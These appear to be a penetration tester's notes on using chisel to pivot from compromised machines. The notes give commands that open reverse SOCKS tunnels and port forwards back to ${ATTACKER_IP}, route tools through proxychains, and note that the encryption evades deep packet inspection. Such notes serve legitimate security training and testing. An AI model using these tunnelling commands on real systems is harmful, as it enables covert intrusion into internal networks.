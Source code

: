 # Chisel
if you get:


> /chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32` not found (required by ./chisel)
go [here](https://github.com/jpillora/chisel/releases) for the appropriate release.

Chisel makes it possible to do HTTP tunneling encrypted such that deep packet inspection won't be able to look into the details of the traffic.

Note that you can state multiple forwarding statements in a single `chisel client ...` command.

Also keep in mind that chisel can be run in a non-blocking manner in powershell by doing:

```
Start-Process -NoNewWindow ./chisel -Args "client ..."
```


## Dynamic Port Forwarding


We run a chisel server on `${ATTACKER_IP}` which allows us to connect back from an owned machine:

```
chisel server --port ${ATTACKER_PORT} --reverse
```

From the `${OWNED_IP0}`, run 

```
chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:socks
```
This creates a SOCKS tunnel (bound to 1080 by default). <--- USE 1080 as proxy port, not `${ATTACKER_PORT}`. Also when setting up the proxy in the browser!

If you want it to not block your current shell, do:

```
chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:socks > /dev/null 2>&1 &
```

If you don't want to use port 1080, do:

```
chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:${SOME_PORT}:socks
```

now, use `${SOME_PORT}` as the socks proxy port.


Once the client and server is setup, we can access targets from the point of view of `${OWNED_IP0}` by using proxychains4:

Add to proxychains4.conf:
```
socks5 127.0.0.1 1080
```

```
proxychains4 -f proxychains4.conf ${SOME_COMMAND} 
```


## Local Port Forwarding

Start the server without the `--reverse` arg on your kali machine:

```
chisel server -p ${ATTACKER_CHISEL_PORT} 
```


on the victim (e.g. a machine that bridges the gap between a WAN and a DMZ network):

```
chisel client ${ATTACKER_IP}:${ATTACKER_CHISEL_PORT} ${VICTIM_LISTENING_PORT}:${TARGET_IP}:${TARGET_PORT}
```

For instance, if you want to expose ports 80 and 443 from your attack box to the internal network,
from the bridging machine, run:

```
./chisel client ${ATTACKER_IP}:${ATTACKER_CHISEL_PORT} 8380:${ATTACKER_IP}:80 4443:${ATTACKER_IP}:443
```

Now, from the internal network, you can hit port 8380 on the bridging victim (remember to use the internal IP),
to hit port 80 on the attack box, and port 4443 to hit port 443 on the attack box.


## Remote Port Forwarding 

if you want to expose a single port on an owned machine `IP0`, you can do:


```
./chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:${ATTACKER_PORT1}:${OWNED_IP}:${OWNED_PORT}
```

This allows traffic to go between `$ATTACKER_PORT1` and `${OWNED_IP}:${OWNED_PORT}`.
For exposing a local port on a machine do:

```
./chisel client ${ATTACKER_IP}:3333 R:9000:127.0.0.1:8000
```
Now, you can access the website internally exposed on `127.0.0.1:8000` on the target machine by going to `localhost:9000` in firefox.

Note that you can do multiple port forwarding statements with one client call.
In case you need to forward multiple ports.
